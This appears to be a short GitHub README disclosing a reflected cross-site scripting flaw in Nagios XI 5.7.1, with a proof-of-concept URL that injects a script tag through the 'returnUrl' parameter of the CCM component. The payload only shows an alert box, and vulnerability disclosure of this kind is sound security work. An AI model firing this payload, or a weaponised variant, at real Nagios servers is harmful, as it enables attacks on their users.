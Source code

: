 # Nagios-XI-Reflected-XSS
A reflected cross-site scripting (XSS) in [Nagios XI 5.7.1](https://www.nagios.com/downloads/nagios-xi/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page.

# PoC
To exploit vulnerability, someone could use a GET request to 'http://[server]/nagiosxi/includes/components/ccm/' by manipulating 'returnUrl' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
http://[server]/nagiosxi/includes/components/ccm/?cmd=modify&id=1&page=1&returnUrl=%22%3C/script%3E%3Cscript%3Ealert(document.domain)%3C/script%3E&type=host
```

![](https://emreovunc.com/blog/en/nagios_xi_5_7_1_reflected_xss.png)

![](https://emreovunc.com/blog/en/nagios_xi_5_7_1_reflected_xss_02.png)
